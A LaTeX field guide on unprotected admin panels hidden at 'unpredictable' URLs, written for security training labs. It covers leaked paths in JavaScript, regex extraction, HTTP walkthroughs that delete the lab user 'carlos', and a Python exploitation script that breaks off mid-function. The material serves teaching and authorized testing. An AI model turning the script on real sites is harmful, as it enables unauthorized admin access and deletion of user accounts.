\documentclass[11pt,letterpaper]{article}


\usepackage{amssymb} % provides \square
% ============================================================
% COMPREHENSIVE FIELD GUIDE: Unprotected Admin Functionality
% with Unpredictable URL - Discovery, Exploitation, and Remediation
% ============================================================

% ---------- Page & typography ----------
\usepackage[margin=1in]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{parskip}

% ---------- Structure ----------
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{array}
\usepackage{multirow}
\usepackage{enumitem}
\setlist[itemize]{leftmargin=*, itemsep=0.35em, topsep=0.35em}
\setlist[enumerate]{leftmargin=*, itemsep=0.35em, topsep=0.35em}

% ---------- Links ----------
\usepackage[hidelinks,colorlinks=true,linkcolor=blue!60!black,urlcolor=blue!70!black]{hyperref}
\usepackage{url}

% ---------- Graphics ----------
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds}

% ---------- Code listings ----------
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyvrb}

\definecolor{codeframe}{rgb}{0.85,0.85,0.85}
\definecolor{codenums}{rgb}{0.40,0.40,0.40}
\definecolor{codebg}{rgb}{0.97,0.97,0.97}
\definecolor{codegreen}{rgb}{0.0,0.5,0.0}
\definecolor{codepurple}{rgb}{0.58,0.0,0.82}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codeorange}{rgb}{0.8,0.4,0.0}

% Robust inline code (handles %, _, #, etc.)
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\newcommand{\kbd}[1]{\fbox{\texttt{\small #1}}}
\newcommand{\filepath}[1]{\texttt{#1}}

\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,DELETE,PATCH,HEAD,OPTIONS,HTTP,Host,User-Agent,Accept,Accept-Language,Content-Type,Authorization,Cookie,Set-Cookie,Location,Origin,Referer,Cache-Control,X-Requested-With,X-Forwarded-For},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{javascript}{
  morekeywords={break,case,catch,class,const,continue,debugger,default,delete,do,else,export,extends,finally,for,function,if,import,in,instanceof,let,new,return,super,switch,this,throw,try,typeof,var,void,while,with,yield,await,async,true,false,null,undefined,require,module,exports,document,window,location,href},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\lstdefinelanguage{python}{
  morekeywords={and,as,assert,break,class,continue,def,del,elif,else,except,False,finally,for,from,global,if,import,in,is,lambda,None,nonlocal,not,or,pass,raise,return,True,try,while,with,yield,self,print},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]',
  morestring=[b]",
  morestring=[b]'''
}

\lstdefinelanguage{bash}{
  morekeywords={sudo,apt,cat,cd,chmod,cp,curl,echo,export,grep,head,kill,less,ls,mkdir,mv,printf,ps,pwd,rm,sed,ssh,tail,touch,which,python,python3,pip,jq,awk,xargs},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{java}{
  morekeywords={abstract,assert,boolean,break,byte,case,catch,char,class,const,continue,default,do,double,else,enum,extends,false,final,finally,float,for,if,implements,import,instanceof,int,interface,long,native,new,null,package,private,protected,public,return,short,static,strictfp,super,switch,synchronized,this,throw,throws,transient,true,try,void,volatile,while,@PreAuthorize,@Secured,@RolesAllowed},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{html}{
  morekeywords={html,head,body,script,div,span,a,href,src,id,class,style,type,meta,link,title},
  sensitive=false,
  morecomment=[s]{<!--}{-->},
  morestring=[b]",
  morestring=[b]'
}

\lstset{
  basicstyle=\ttfamily\small,
  columns=fullflexible,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  rulecolor=\color{codeframe},
  backgroundcolor=\color{codebg},
  framerule=0.6pt,
  numbers=left,
  numberstyle=\tiny\color{codenums},
  stepnumber=1,
  numbersep=10pt,
  showstringspaces=false,
  tabsize=2,
  upquote=true,
  keywordstyle=\color{codeblue}\bfseries,
  commentstyle=\color{codegreen}\itshape,
  stringstyle=\color{codepurple},
  xleftmargin=2em,
  framexleftmargin=1.5em
}

% ---------- Callout environments ----------
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}

\newtcolorbox{warningbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{infobox}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{tipbox}[1][]{
  colback=green!5!white,
  colframe=green!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{notebox}[1][]{
  colback=yellow!5!white,
  colframe=yellow!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{conceptbox}[1][]{
  colback=purple!5!white,
  colframe=purple!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

% Legacy callout for compatibility
\newenvironment{callout}[1]{%
  \begin{tcolorbox}[colback=gray!10!white,colframe=gray!60!black,fonttitle=\bfseries,title=#1,breakable]
}{%
  \end{tcolorbox}
}

% ---------- Document metadata ----------
\title{\textbf{Comprehensive Field Guide:\\Unprotected Admin Functionality\\with Unpredictable URL}\\[0.5em]
\large Broken Access Control---Client-Side Disclosure, Exploitation, Evidence Collection, and Remediation\\[0.3em]
\normalsize Version 2.0}
\author{Web Application Security Assessment Reference}
\date{January 21, 2026}

\begin{document}
\maketitle

\begin{abstract}
\noindent This comprehensive field guide addresses a deceptively dangerous variant of broken access control: \textbf{unprotected administrative functionality hidden behind an ``unpredictable'' URL}. In this scenario, developers attempt to secure admin panels by using obscure, randomized, or complex URLs (e.g., \code{/admin-7f3c2a9b1d}, \code{/panel-xyz123}) instead of implementing proper server-side authorization. The critical flaw is that these ``secret'' URLs are often disclosed within the application itself---typically in client-side JavaScript, HTML comments, configuration files, or API responses.

This guide provides security professionals with:
\begin{itemize}
  \item Deep understanding of why URL secrecy fails as a security control
  \item Systematic methodologies for discovering disclosed admin paths
  \item Detailed techniques for JavaScript source code analysis and regex extraction
  \item Complete exploitation workflows including session cookie handling
  \item Production-ready automation scripts with BeautifulSoup and regex parsing
  \item Comprehensive remediation patterns across multiple frameworks
  \item Testing checklists and evidence collection frameworks
\end{itemize}

\noindent\textbf{Key Distinction:} Unlike standard unprotected admin panels at predictable paths (e.g., \code{/admin}), this variant requires discovering the URL through source code analysis before exploitation---making the discovery phase critical.
\end{abstract}

\tableofcontents
\newpage

% ============================================================
\section{Introduction and Scope}
% ============================================================

\subsection{Document Purpose}

This field guide serves as a practical reference for identifying, validating, and remediating unprotected administrative functionality that relies on URL unpredictability for security. The guide emphasizes:

\begin{itemize}
  \item \textbf{Source code analysis techniques} for discovering ``hidden'' admin URLs
  \item \textbf{Session management} considerations unique to this vulnerability variant
  \item \textbf{Regex and parsing patterns} for automated URL extraction
  \item \textbf{Real-world scenarios} where this pattern commonly appears
\end{itemize}

\subsection{Vulnerability Classification}

This vulnerability falls under multiple classifications:

\begin{table}[h]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Standard} & \textbf{Classification} & \textbf{Reference} \\
\midrule
OWASP Top 10 2021 & A01:2021 Broken Access Control & \url{owasp.org/Top10} \\
CWE & CWE-862: Missing Authorization & \url{cwe.mitre.org} \\
CWE & CWE-425: Direct Request (Forced Browsing) & \url{cwe.mitre.org} \\
CWE & CWE-656: Reliance on Security Through Obscurity & \url{cwe.mitre.org} \\
CVSS v3.1 & Typically High to Critical (7.5--9.8) & Context-dependent \\
\bottomrule
\end{tabular}
\caption{Vulnerability classification across security standards}
\end{table}

\subsection{How This Differs from Standard Unprotected Admin}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lXX@{}}
\toprule
\textbf{Aspect} & \textbf{Predictable URL Variant} & \textbf{Unpredictable URL Variant} \\
\midrule
Admin Path & Common paths like \code{/admin}, \code{/administrator} & Obscure paths like \code{/admin-7f3c2a9b} \\
Discovery Method & Path brute-forcing, wordlists & Source code analysis, JS inspection \\
URL Disclosure & Often in robots.txt, sitemaps & Hidden in JavaScript, HTML comments \\
Developer Intent & Often oversight/negligence & Deliberate ``security by obscurity'' \\
Session Handling & May or may not require session & Often requires valid session cookie \\
Complexity & Straightforward discovery & Requires parsing/regex extraction \\
\bottomrule
\end{tabularx}
\caption{Comparison between predictable and unpredictable URL variants}
\end{table}

\subsection{Ethical and Legal Framework}

\begin{warningbox}[Critical: Authorized Testing Only]
This guide must only be used on systems where you have explicit written authorization to perform security testing. This includes:
\begin{itemize}
  \item Dedicated security training labs (e.g., PortSwigger Web Security Academy)
  \item Your own test environments and applications
  \item Systems covered by a valid penetration testing agreement
  \item Bug bounty programs where this testing is in scope
\end{itemize}

\textbf{Unauthorized access to computer systems is illegal and may result in criminal prosecution.}
\end{warningbox}

% ============================================================
\section{Conceptual Foundation: Why URL Secrecy Fails}
% ============================================================

\subsection{The Fundamental Flaw}

\begin{conceptbox}[Core Principle]
\textbf{URL secrecy is not access control.}

An ``unpredictable'' URL provides zero security if:
\begin{enumerate}
  \item The URL is disclosed anywhere in the application
  \item The server does not verify authorization when the URL is accessed
  \item Anyone with the URL can execute privileged actions
\end{enumerate}

\textbf{Correct approach:} Assume every URL is discoverable; enforce authorization server-side on every request.
\end{conceptbox}

\subsection{Why Developers Use Unpredictable URLs}

Understanding the developer mindset helps in discovery:

\begin{enumerate}
  \item \textbf{False sense of security}: ``Nobody will guess \code{/admin-7f3c2a9b1d4e5f}''
  \item \textbf{Quick fix mentality}: Faster than implementing proper authorization
  \item \textbf{Legacy constraints}: Adding auth to old admin panels is ``too complex''
  \item \textbf{Misunderstanding threats}: Not considering that URLs leak
  \item \textbf{Internal tools assumption}: ``Only internal users have the URL''
  \item \textbf{Development artifacts}: Randomized paths for dev/staging never secured for production
\end{enumerate}

\subsection{The Authorization Decision Chain}

Every protected action should follow this chain:

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  box/.style={rectangle, draw, rounded corners, minimum width=2.8cm, minimum height=1cm, align=center, font=\small},
  arrow/.style={-{Stealth[length=3mm]}, thick},
  fail/.style={rectangle, draw, rounded corners, fill=red!20, minimum width=2cm, minimum height=0.8cm, align=center, font=\small}
]
  \node[box, fill=blue!20] (req) at (0,0) {Request\\Received};
  \node[box, fill=green!20] (authn) at (3.5,0) {Authenticate\\User};
  \node[box, fill=orange!20] (authz) at (7,0) {Authorize\\Action};
  \node[box, fill=purple!20] (exec) at (10.5,0) {Execute\\Action};
  
  \node[fail] (f1) at (3.5,-1.8) {401};
  \node[fail] (f2) at (7,-1.8) {403};
  
  \draw[arrow] (req) -- (authn);
  \draw[arrow] (authn) -- (authz);
  \draw[arrow] (authz) -- (exec);
  \draw[arrow, dashed, red] (authn) -- (f1) node[midway, right, font=\tiny] {No identity};
  \draw[arrow, dashed, red] (authz) -- (f2) node[midway, right, font=\tiny] {No permission};
\end{tikzpicture}
\caption{Proper authorization decision chain (missing in vulnerable applications)}
\end{figure}

\subsection{URL Disclosure Vectors}

``Unpredictable'' URLs leak through numerous channels:

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lX@{}}
\toprule
\textbf{Disclosure Vector} & \textbf{Description} \\
\midrule
Client-side JavaScript & Route definitions, conditional logic, API endpoints \\
HTML comments & Developer notes, TODO items, debugging info \\
Inline \code{<script>} tags & Configuration objects, feature flags \\
Source maps (\code{.map} files) & Original source revealing all routes \\
API responses & Endpoint lists, HATEOAS links, configuration \\
Error messages & Stack traces revealing internal paths \\
Webpack/build artifacts & Bundle analysis reveals route structure \\
Mobile app binaries & Decompiled apps contain API endpoints \\
Browser history/bookmarks & Shared or leaked browser data \\
Referrer headers & URLs leaked to third-party analytics \\
Log files & Access logs, application logs exposed \\
Documentation & Internal wikis, READMEs, API docs \\
\bottomrule
\end{tabularx}
\caption{Common URL disclosure vectors}
\end{table}

% ============================================================
\section{Discovery Methodologies}
% ============================================================

This section details systematic approaches to discovering ``unpredictable'' admin URLs.

\subsection{Phase 1: Initial Reconnaissance}

\subsubsection{Check Standard Disclosure Points First}

Before analyzing JavaScript, check obvious locations:

\begin{lstlisting}[language=bash,caption={Initial reconnaissance commands}]
# Check robots.txt (may still disclose unpredictable paths)
curl -s https://target.example.com/robots.txt

# Check sitemap
curl -s https://target.example.com/sitemap.xml

# Fetch main page and search for admin patterns
curl -s https://target.example.com/ | grep -i "admin"

# Check for source maps
curl -s https://target.example.com/main.js.map
\end{lstlisting}

\subsubsection{Identify JavaScript Resources}

\begin{lstlisting}[language=bash,caption={Finding JavaScript files}]
# Extract all script sources from HTML
curl -s https://target.example.com/ | \
  grep -oP 'src="[^"]*\.js[^"]*"' | \
  sed 's/src="//;s/"//'

# Find inline scripts
curl -s https://target.example.com/ | \
  grep -oP '<script[^>]*>.*?</script>'
\end{lstlisting}

\subsection{Phase 2: JavaScript Source Code Analysis}

\subsubsection{Inline Script Inspection}

The most common disclosure location for lab-style vulnerabilities:

\begin{lstlisting}[language=html,caption={Example: Admin path disclosed in inline JavaScript}]
<!DOCTYPE html>
<html>
<head>
    <title>Shop</title>
</head>
<body>
    <script>
        var isAdmin = false;
        if (isAdmin) {
            var adminPanelTag = document.createElement('a');
            adminPanelTag.setAttribute('href', '/admin-j7g4f2');
            adminPanelTag.innerText = 'Admin panel';
            // ... append to DOM
        }
    </script>
    <!-- Page content -->
</body>
</html>
\end{lstlisting}

\begin{tipbox}[Key Insight]
Even when \code{isAdmin} is \code{false}, the admin path \code{/admin-j7g4f2} is still present in the HTML source sent to every user. The JavaScript condition only controls whether the link is \emph{rendered}---the path is always \emph{disclosed}.
\end{tipbox}

\subsubsection{Browser Developer Tools Method}

Step-by-step browser inspection:

\begin{enumerate}
  \item \textbf{Open DevTools}: Press \kbd{F12} or \kbd{Ctrl+Shift+I}
  \item \textbf{View Page Source}: \kbd{Ctrl+U} or right-click $\rightarrow$ ``View Page Source''
  \item \textbf{Search for patterns}: \kbd{Ctrl+F} and search for:
  \begin{itemize}
    \item \code{admin}
    \item \code{/admin}
    \item \code{panel}
    \item \code{manage}
    \item \code{isAdmin}
    \item \code{adminDir}
    \item \code{adminPath}
    \item \code{adminURL}
  \end{itemize}
  \item \textbf{Check Network tab}: Filter by JS, examine loaded scripts
  \item \textbf{Check Sources tab}: Browse loaded JavaScript files
\end{enumerate}

\subsubsection{External JavaScript File Analysis}

\begin{lstlisting}[language=bash,caption={Downloading and searching JavaScript files}]
# Download main JavaScript bundle
curl -s https://target.example.com/assets/main.bundle.js -o main.js

# Search for admin-related patterns
grep -n -i "admin" main.js
grep -n -oP "/admin[^'\"]*" main.js
grep -n -oP "adminPath.*?['\"][^'\"]+['\"]" main.js

# Search for route definitions
grep -n -i "route\|path\|endpoint" main.js

# Find URL patterns
grep -n -oP "['\"]/[a-zA-Z0-9_-]+['\"]" main.js | sort -u
\end{lstlisting}

\subsubsection{Common JavaScript Patterns to Search}

\begin{lstlisting}[language=javascript,caption={JavaScript patterns that commonly disclose admin paths}]
// Pattern 1: Conditional admin link creation
if (isAdmin) {
    var adminPanel = '/admin-xyz123';  // DISCLOSED!
}

// Pattern 2: Route configuration objects
const routes = {
    home: '/',
    profile: '/profile',
    admin: '/admin-secret-path'  // DISCLOSED!
};

// Pattern 3: API endpoint definitions
const API = {
    users: '/api/users',
    adminUsers: '/api/admin-abc123/users'  // DISCLOSED!
};

// Pattern 4: Feature flag checks
if (window.features.adminEnabled) {
    loadAdminPanel('/management-console-7f3c');  // DISCLOSED!
}

// Pattern 5: Environment configuration
window.CONFIG = {
    adminPath: '/super-admin-panel-9x8y7z',  // DISCLOSED!
    apiBase: '/api/v1'
};

// Pattern 6: React/Vue/Angular routes
{
    path: '/admin-dashboard-hidden',  // DISCLOSED!
    component: AdminDashboard,
    meta: { requiresAdmin: true }
}
\end{lstlisting}

\subsection{Phase 3: Regex Extraction Patterns}

For automated extraction, use these regex patterns:

\begin{lstlisting}[language=python,caption={Python regex patterns for admin path extraction}]
import re

# Pattern 1: Generic admin path in quotes
pattern1 = r"['\"]/(admin[^'\"]*)['\"]"

# Pattern 2: href attribute with admin
pattern2 = r"href\s*=\s*['\"]([^'\"]*admin[^'\"]*)['\"]"

# Pattern 3: Assignment to admin-related variable
pattern3 = r"admin\w*\s*[=:]\s*['\"]([^'\"]+)['\"]"

# Pattern 4: Path after specific keywords
pattern4 = r"(?:adminPath|adminDir|adminURL|adminPanel)\s*[=:]\s*['\"]([^'\"]+)['\"]"

# Pattern 5: Any path starting with /admin-
pattern5 = r"['\"](/admin-[a-zA-Z0-9_-]+)['\"]"

# Example usage
html_source = """..."""
for pattern in [pattern1, pattern2, pattern3, pattern4, pattern5]:
    matches = re.findall(pattern, html_source, re.IGNORECASE)
    for match in matches:
        print(f"Found: {match}")
\end{lstlisting}

\subsection{Phase 4: Source Map Analysis}

Source maps can reveal the complete original source code:

\begin{lstlisting}[language=bash,caption={Source map discovery and analysis}]
# Check for source map reference in JS file
curl -s https://target.example.com/main.js | tail -5
# Look for: //# sourceMappingURL=main.js.map

# Download source map
curl -s https://target.example.com/main.js.map -o main.js.map

# Extract original sources (using source-map-cli)
npm install -g source-map-cli
source-map-decode main.js.map

# Or use Python
python3 -c "
import json
with open('main.js.map') as f:
    data = json.load(f)
    for source in data.get('sources', []):
        print(source)
"
\end{lstlisting}

\subsection{Phase 5: HTML Comment Analysis}

Developers sometimes leave revealing comments:

\begin{lstlisting}[language=html,caption={Admin paths in HTML comments}]
<!-- Admin panel: /admin-panel-7f3c2a9b -->
<!-- TODO: Add auth to /management-console -->
<!-- Debug: adminEndpoint = /secret-admin-xyz -->

<!--
    Routes:
    - /home
    - /profile  
    - /admin-dashboard-hidden (ADMIN ONLY)
-->
\end{lstlisting}

\begin{lstlisting}[language=bash,caption={Extracting HTML comments}]
# Extract all HTML comments
curl -s https://target.example.com/ | \
  grep -oP '<!--.*?-->' | \
  grep -i "admin\|panel\|manage\|secret"
\end{lstlisting}

% ============================================================
\section{Manual Exploitation Workflow}
% ============================================================

\subsection{Pre-Assessment Setup}

\subsubsection{Tool Configuration}

\begin{enumerate}
  \item \textbf{Burp Suite Configuration}
  \begin{itemize}
    \item Proxy listener on \code{127.0.0.1:8080}
    \item Burp's built-in browser or FoxyProxy configured
    \item Project file created for evidence retention
  \end{itemize}
  
  \item \textbf{Browser Configuration}
  \begin{itemize}
    \item Developer tools readily accessible (\kbd{F12})
    \item Network tab monitoring enabled
    \item Preserve log enabled to catch all requests
  \end{itemize}
\end{enumerate}

\subsection{Step 1: Load Application and Capture Traffic}

\begin{lstlisting}[language=http,caption={Initial request to capture session}]
GET / HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml
Accept-Language: en-US,en;q=0.5
Connection: close

-- Response --
HTTP/1.1 200 OK
Set-Cookie: session=abc123xyz789; Secure; HttpOnly
Content-Type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
...
\end{lstlisting}

\begin{notebox}[Important: Session Cookie]
Note the \code{Set-Cookie} header. This session cookie is often required to access the admin panel, even though no authentication has occurred. The application may return 404 without a valid session cookie.
\end{notebox}

\subsection{Step 2: View Page Source and Locate Admin Path}

\begin{lstlisting}[language=http,caption={Viewing page source}]
GET / HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=abc123xyz789
User-Agent: Mozilla/5.0
Accept: text/html

-- Response Body (excerpt) --
<script>
var isAdmin = false;
if (isAdmin) {
    var topNav = document.getElementById('top-links');
    var adminPanelTag = document.createElement('a');
    adminPanelTag.setAttribute('href', '/admin-j7g4f2');
    adminPanelTag.innerText = 'Admin panel';
    topNav.append(adminPanelTag);
}
</script>
\end{lstlisting}

\begin{tipbox}[Discovery Success]
The admin path \code{/admin-j7g4f2} is disclosed in the JavaScript, even though \code{isAdmin} is \code{false}. This path would be impossible to guess through brute-forcing but is plainly visible in the source code.
\end{tipbox}

\subsection{Step 3: Access the Admin Panel}

\begin{lstlisting}[language=http,caption={Accessing the disclosed admin panel}]
GET /admin-j7g4f2 HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=abc123xyz789
User-Agent: Mozilla/5.0
Accept: text/html

-- Vulnerable Response (200 OK) --
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<body>
<section class="maincontainer">
    <h1>Users</h1>
    <div>
        <span>administrator</span>
        <a href="/admin-j7g4f2/delete?username=administrator">Delete</a>
    </div>
    <div>
        <span>carlos</span>
        <a href="/admin-j7g4f2/delete?username=carlos">Delete</a>
    </div>
    <div>
        <span>wiener</span>
        <a href="/admin-j7g4f2/delete?username=wiener">Delete</a>
    </div>
</section>
</body>
</html>
\end{lstlisting}

\subsection{Step 4: Verify Session Requirement}

Test whether the session cookie is required:

\begin{lstlisting}[language=http,caption={Testing without session cookie}]
GET /admin-j7g4f2 HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: text/html
(No Cookie header)

-- Response WITHOUT session --
HTTP/1.1 404 Not Found
Content-Type: text/html

<h1>Not Found</h1>
\end{lstlisting}

\begin{lstlisting}[language=http,caption={Testing with session cookie}]
GET /admin-j7g4f2 HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=abc123xyz789
User-Agent: Mozilla/5.0
Accept: text/html

-- Response WITH session --
HTTP/1.1 200 OK
Content-Type: text/html

<h1>Users</h1>
... admin content ...
\end{lstlisting}

\begin{warningbox}[Session Dependency Analysis]
In this variant, the server returns 404 without a session cookie, which might initially appear as proper access control. However, the session is obtained from the public homepage without any authentication---it's merely a tracking session, not proof of identity or authorization.
\end{warningbox}

\subsection{Step 5: Execute Privileged Action}

\begin{lstlisting}[language=http,caption={Deleting user carlos}]
GET /admin-j7g4f2/delete?username=carlos HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=abc123xyz789
User-Agent: Mozilla/5.0
Accept: text/html
Referer: https://0aXXXXXXXX.web-security-academy.net/admin-j7g4f2

-- Response --
HTTP/1.1 302 Found
Location: /admin-j7g4f2
Set-Cookie: session=newSessionValue; Secure; HttpOnly

-- Following Redirect --
GET /admin-j7g4f2 HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=newSessionValue

-- Response (carlos removed) --
HTTP/1.1 200 OK
Content-Type: text/html

<h1>Users</h1>
<div>
    <span>administrator</span>
    ...
</div>
<div>
    <span>wiener</span>
    ...
</div>
<!-- carlos no longer listed -->
\end{lstlisting}

\subsection{Burp Suite Repeater Workflow}

\begin{enumerate}
  \item \textbf{Capture initial request}: Load homepage, note \code{Set-Cookie}
  \item \textbf{Send to Repeater}: Right-click homepage request $\rightarrow$ Send to Repeater
  \item \textbf{Identify admin path}: Examine response body for JavaScript containing admin URL
  \item \textbf{Create admin request}: New Repeater tab with admin path
  \item \textbf{Include session cookie}: Copy session cookie from initial response
  \item \textbf{Test access}: Send request, verify admin content returned
  \item \textbf{Execute action}: Modify URL to include delete action
\end{enumerate}

% ============================================================
\section{Automated Exploitation}
% ============================================================

\subsection{Complete Python Exploitation Script}

\begin{lstlisting}[language=python,caption={Full-featured exploitation script with session handling and regex extraction}]
#!/usr/bin/env python3
"""
Unprotected Admin Functionality with Unpredictable URL
Discovery and Exploitation Script

This script:
1. Fetches the main page to obtain a session cookie
2. Parses the HTML/JavaScript to extract the admin path
3. Accesses the admin panel using the session and extracted path
4. Deletes the specified user

Usage: python3 exploit.py <BASE_URL> [--user <username>]
Example: python3 exploit.py https://lab.example.com --user carlos
"""

import sys
import re
import argparse
import requests
import urllib3
from bs4 import BeautifulSoup
from typing import Optional, Tuple

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration (comment out for direct connection)
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}


def banner():
    """Print script banner."""
    print("""
    +----------------------------------------------------------------+
    |  Unprotected Admin - Unpredictable URL Exploitation Script     |
    |  For authorized security testing only                          |
    +----------------------------------------------------------------+
    """)


def get_session_cookie(session: requests.Session, base_url: str) -> Optional[str]:
    """
    Fetch the main page and extract the session cookie.
    
    Args:
        session: requests Session object
        base_url: Target base URL
        
    Returns:
        Session cookie value or None if not found
    """
    print(f"[*] Fetching main page to obtain session cookie...")
    
    try:
        response = session.get(
            base_url,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        # Extract session cookie from response
        session_cookie = response.cookies.get('session')
        
        if session_cookie:
            print(f"[+] Session cookie obtained: {session_cookie[:20]}...")
            return session_cookie
        else:
            # Check Set-Cookie header directly
            set_cookie = response.headers.get('Set-Cookie', '')
            match = re.search(r'session=([^;]+)', set_cookie)
            if match:
                session_cookie = match.group(1)
                print(f"[+] Session cookie extracted from header: {session_cookie[:20]}...")
                return session_cookie
                
        print("[-] No session cookie found in response")
        return None
        
    except requests.RequestException as e:
        print(f"[-] Error fetching main page: {e}")
        return None


def extract_admin_path(session: requests.Session, base_url: str) -> Optional[str]:
    """
    Parse the main page HTML/JavaScript to extract the admin path.
    
    Uses multiple regex patterns to find admin paths in:
    - Inline JavaScript
    - HTML attributes
    - Configuration objects
    
    Args:
        session: requests Session object
        base_url: Target base URL
        
    Returns:
        Admin path (e.g., '/admin-j7g4f2') or None if not found
    """
    print(f"[*] Analyzing page source for admin path disclosure...")
    
    try:
        response = session.get(
            base_url,
            verify=False,
            proxies=PROXIES,
            timeout=15
        )
        
        html_content = response.text
        
        # Regex patterns to find admin paths
        patterns = [
            # Pattern 1: href attribute with admin path
            r"href\s*=\s*['\"](/admin[^'\"]*)['\"]",
            
            # Pattern 2: JavaScript string assignment
            r"['\"](/admin-[a-zA-Z0-9_-]+)['\"]",
            
            # Pattern 3: adminPath/adminDir variable assignment
            r"admin(?:Path|Dir|URL|Panel)\s*[=:]\s*['\"]([^'\"]+)['\"]",
            
            # Pattern 4: setAttribute with href
            r"setAttribute\s*\(\s*['\"]href['\"]\s*,\s*['\"]([^'\"]*admin[^'\"]*)['\"]",
            
            # Pattern 5: Generic path starting with /admin
            r"['\"]/(admin[a-zA-Z0-9_/-]*)['\"]",
        ]
        
        found_paths = set()
        
        for pattern in patterns:
            matches = re.findall(pattern, html_content, re.IGNORECASE)
            for match in matches:
                # Normalize the path
                path = match if match.startswith('/') else '/' + match
                found_paths.add(path)
                print(f"    [!] Found potential admin path: {path}")
        
        if found_paths:
            # Return the most specific admin path (longest or with hash-like suffix)
            for path in sorted(found_paths, key=len, reverse=True):
                if re.search(r'/admin-[a-zA-Z0-9]+', path):
                    print(f"[+] Selected admin path: {path}")
                    return path
            
            # If no hash-like path, return the first found
            selected = list(found_paths)[0]
            print(f"[+] Selected admin path: {selected}")
            return selected
        
        # Alternative: Use BeautifulSoup for structured parsing
        print("[*] Trying BeautifulSoup parsing...")
        soup = BeautifulSoup(html_content, 'html.parser')
        
        for script in soup.find_all('script'):
            if script.string:
                # Search script content
                match = re.search(r"['\"](/admin-[a-zA-Z0-9_-]+)['\"]", script.string)
                if match:
                    path = match.group(1)
                    print(f"[+] Found admin path in script: {path}")
                    return path
        
        print("[-] No admin path found in page source")
        return None
        
    except requests.RequestException as e:
        print(f"[-] Error analyzing page: {e}")
        return None


def access_admin_panel(
    session: requests.Session,
    base_url: str,
    admin_path: str,
    session_cookie: str
) -> Tuple[bool, str]:
    """
    Access the admin panel using the discovered path.
    
    Args:
        session: requests Session object
        base_url: Target base URL
        admin_path: Discovered admin path
        session_cookie: Session cookie value
        
    Returns:
        Tuple of (success: bool, response_text: str)
    """
    admin_url = base_url.rstrip('/') + admin_path
    print(f"[*] Accessing admin panel: {admin_url}")
    
    cookies = {'session': session_cookie}
    
    try:
        response = session.get(
            admin_url,
            cookies=cookies,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        print(f"[*] Response status: {response.status_code}")
        
        if response.status_code == 200:
            # Verify it's actually admin content
            if 'admin' in response.text.lower() or 'delete' in response.text.lower():
                print("[+] Successfully accessed admin panel!")
                return True, response.text
            else:
                print("[?] Got 200 but content doesn't look like admin panel")
                return False, response.text
        else:
            print(f"[-] Failed to access admin panel: {response.status_code}")
            return False, response.text
            
    except requests.RequestException as e:
        print(f"[-] Error accessing admin panel: {e}")
        return False, ""


def delete_user(
    session: requests.Session,
    base_url: str,
    admin_path: str,
    session_cookie: str,
    username: str
) -> bool:
    """
    Delete a user via the admin panel.
    
    Args:
        session: requests Session object
        base_url: Target base URL
        admin_path: Admin panel path
